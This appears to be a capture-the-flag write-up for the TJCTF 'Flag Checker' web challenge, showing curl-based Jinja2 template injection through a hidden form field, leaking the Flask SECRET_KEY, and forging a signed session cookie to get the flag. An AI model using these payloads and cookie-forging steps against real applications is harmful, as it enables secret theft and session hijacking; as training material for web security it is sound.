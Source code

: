 # Flag Checker
Web

## Challenge 

I made this [really cool flag checker](https://flag_checker.tjctf.org/)! The only way to get in is to guess the flag because I made it super secure... at least I hope I did.

## Solution

After looking around the page, I realised there is a hidden `csrfmiddlewaretoken`.

    $ curl -s 'https://flag_checker.tjctf.org/' --data "flag=&csrfmiddlewaretoken=HELLOWORLD" | grep csrfmiddlewaretoken
            <input type="hidden" name="csrfmiddlewaretoken" value="HELLOWORLD" />

And trying out some different text injection payloads, I found out Jinja2 `{{ 7*'7' }}` will show us this

	$ curl -s 'https://flag_checker.tjctf.org/' --data "flag=&csrfmiddlewaretoken={{ 7*'7' }}" | grep csrfmiddlewaretoken

        <input type="hidden" name="csrfmiddlewaretoken" value="7777777" />

This is a Jinja Flask Template Injection

References:
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#basic-injection
- https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti
- http://flask.pocoo.org/docs/1.0/templating/#standard-context

---

Trying out different payloads

    {{url_for.__globals__}}
    {{url_for.__globals__.os.__dict__}}
    {{request.url[23:]}}
    {{config}}

And then I realised that {{config}} has something interesting


    $ curl 'https://flag_checker.tjctf.org/' --data "flag=&csrfmiddlewaretoken={{config}}"

    <input type="hidden" name="csrfmiddlewaretoken" value="&lt;Config {&#39;TRAP_BAD_REQUEST_ERRORS&#39;: None, &#39;SESSION_COOKIE_DOMAIN&#39;: False, &#39;TRAP_HTTP_EXCEPTIONS&#39;: False, &#39;SESSION_REFRESH_EACH_REQUEST&#39;: True, &#39;SERVER_NAME&#39;: None, &#39;PROPAGATE_EXCEPTIONS&#39;: None, &#39;DEBUG&#39;: False, &#39;PRESERVE_CONTEXT_ON_EXCEPTION&#39;: None, &#39;JSONIFY_MIMETYPE&#39;: &#39;application/json&#39;, &#39;SEND_FILE_MAX_AGE_DEFAULT&#39;: datetime.timedelta(0, 43200), &#39;SECRET_KEY&#39;: b&#39;\xd2zX\xe6|S\x90\xc3xi\x88l\x18\xe6zP&#39;, &#39;ENV&#39;: &#39;production&#39;, &#39;JSON_AS_ASCII&#39;: True, &#39;MAX_CONTENT_LENGTH&#39;: None, &#39;JSONIFY_PRETTYPRINT_REGULAR&#39;: False, &#39;USE_X_SENDFILE&#39;: False, &#39;SESSION_COOKIE_PATH&#39;: None, &#39;MAX_COOKIE_SIZE&#39;: 4093, &#39;APPLICATION_ROOT&#39;: &#39;/&#39;, &#39;TEMPLATES_AUTO_RELOAD&#39;: None, &#39;PREFERRED_URL_SCHEME&#39;: &#39;http&#39;, &#39;SESSION_COOKIE_HTTPONLY&#39;: True, &#39;TESTING&#39;: False, &#39;PERMANENT_SESSION_LIFETIME&#39;: datetime.timedelta(31), &#39;SESSION_COOKIE_SECURE&#39;: False, &#39;JSON_SORT_KEYS&#39;: True, &#39;SESSION_COOKIE_NAME&#39;: &#39;session&#39;, &#39;EXPLAIN_TEMPLATE_LOADING&#39;: False, &#39;SESSION_COOKIE_SAMESITE&#39;: None}&gt;" />

Look carefully, there is a 'SECRET_KEY' entry. Select it

    $ curl 'https://flag_checker.tjctf.org/' --data "flag=&csrfmiddlewaretoken={{config['SECRET_KEY']}}"

    <input type="hidden" name="csrfmiddlewaretoken" value="b&#39;\x8eW^\xf6,\x10HW\xe1\xa9\x9f\xc8\xa7\xbd\x9ew&#39;" />

And we retrieved the key

    SECRET_KEY = '\xd2zX\xe6|S\x90\xc3xi\x88l\x18\xe6zP'

Now, if we do a curl -v, we can see a cookie..

    $ curl -v 'https://flag_checker.tjctf.org/' --data "flag=&csrfmiddlewaretoken={{config['SECRET_KEY']}}"
    < set-cookie: session=eyJoYXNfZmxhZyI6ZmFsc2V9.XKnI9A.vNOsL9z4Zc1QwuRbeQjrxKd9UyA; HttpOnly; Path=/

With the secret_key, we are able to decode and re-encode the session cookie:

References:
- https://stackoverflow.com/a/27287455
- https://stackoverflow.com/questions/22463939/demystify-flask-app-secret-key?lq=1
- https://terryvogelsang.tech/MITRECTF2018-my-flask-app/

---

Using this [Github Gist by @aescalana](https://gist.github.com/aescalana/7e0bc39b95baa334074707f73bc64bfe)

Decode the cookie using this code

    secret = '\xd2zX\xe6|S\x90\xc3xi\x88l\x18\xe6zP'
    cookie = "eyJoYXNfZmxhZyI6ZmFsc2V9.XKnI9A.vNOsL9z4Zc1QwuRbeQjrxKd9UyA"
    session = decodeFlaskCookie(secret, cookie)
    print 'Decoded original cookie:', session

This prints the following

    $ python cookie_decode.py 
    Decoded original cookie: {u'has_flag': False}

Now, we modify the session cookie to get the flag using this code

    session['has_flag'] = True
    cookie = encodeFlaskCookie(secret, session)
    print 'Decoded new cookie:', decodeFlaskCookie(secret, cookie)
    print 'New cookie:', cookie

This prints our modified cookie

    $ python cookie_decode.py 
    Decoded original cookie: {u'has_flag': False}
    Decoded new cookie: {u'has_flag': True}
    New cookie: eyJoYXNfZmxhZyI6dHJ1ZX0.XKnKvg.kr7eaxh9wJayZLy-txEPm148bw0

Pass the cookie to the server and we get the flag!


    $ curl 
        -v 'https://flag_checker.tjctf.org/'
        --data "flag=a"
        --cookie "session=eyJoYXNfZmxhZyI6dHJ1ZX0.XKnKMQ.PkbXcTzvyG3A-L6DFIm3nVDfatM"
    
    <p class="lead">
        How did you guess that it was tjctf{t3mpl4te_inj3ct10n_is_f4k3_n3w5}?
    </p>

## Flag

	tjctf{t3mpl4te_inj3ct10n_is_f4k3_n3w5}


Other related references:

- https://ctftime.org/writeup/11014
- https://medium.com/bugbountywriteup/tokyowesterns-ctf-4th-2018-writeup-part-3-1c8510dfad3f
- https://github.com/bl4de/ctf/blob/master/2017/ASIS_CTF_2017/Golem/Golem_Web_writeup.md
- https://stackoverflow.com/questions/2877110/python-new-style-classes-and-subclasses-function
- https://github.com/EmpireCTF/empirectf/blob/master/writeups/2018-09-01-TokyoWesterners-CTF/README.md
- https://hexplo.it/post/escaping-the-csawctf-python-sandbox/

